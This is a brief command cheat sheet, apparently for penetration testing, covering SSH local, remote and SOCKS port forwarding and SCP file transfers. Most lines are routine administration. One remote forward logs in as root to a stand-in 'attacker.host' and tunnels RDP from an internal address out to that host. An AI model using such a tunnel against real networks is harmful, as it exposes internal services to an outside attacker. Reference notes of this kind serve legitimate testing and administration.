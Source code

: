 #### port forward

*local port forward*

```ssh -L 8443:127.0.0.1:8443 user@remote.host```

```ssh -i id_rsa.key -L 6969:127.0.0.1:6969 user@remote.host```

*remote port forward*

```ssh -R 5901:127.0.0.1:5901 user@remote.host```

```ssh -l root -t -t -R 3389:10.10.10.1:3398 attacker.host```

-----


#### port forward SOCKS5

```ssh -D 5555 user@yourserver.com -p 5555```

-----


#### SCP transfers

*Local (file) to remote host specifying remote port*

```scp -P 1337 file.zip username@remotehost.com:/remote/dir/file.zip```

*Local (directory) to remote host using default port 22*

```scp /local/dir/ username@remotehost.com:/remote/dir/```

*Remote host A to remote host B*

```scp username@host-a.com:/host_a/dir/file.zip username@host-b.com:/host_b/dir/file.zip```

-----

